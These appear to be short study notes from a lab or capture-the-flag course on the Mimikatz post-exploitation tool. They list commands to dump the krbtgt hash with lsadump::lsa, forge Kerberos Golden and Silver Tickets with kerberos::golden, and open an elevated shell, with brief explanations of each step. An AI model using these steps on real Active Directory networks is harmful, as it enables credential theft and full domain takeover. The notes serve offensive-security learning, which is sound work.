 # Mimikatz
    - very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network
    - Ran as a .exe file
    - Brings up a CLI line 

Commands: 

privilege::debug
    - ensure this outputs [privilege '20' ok]

lsadump::lsa /inject /name:krbtgt
    - This will dump the hash as well as the security identifier needed to create a Golden Ticket. 
    - To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
    - for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

misc::cmd
    - This will open a new elevated command prompt with the given ticket in mimikatz.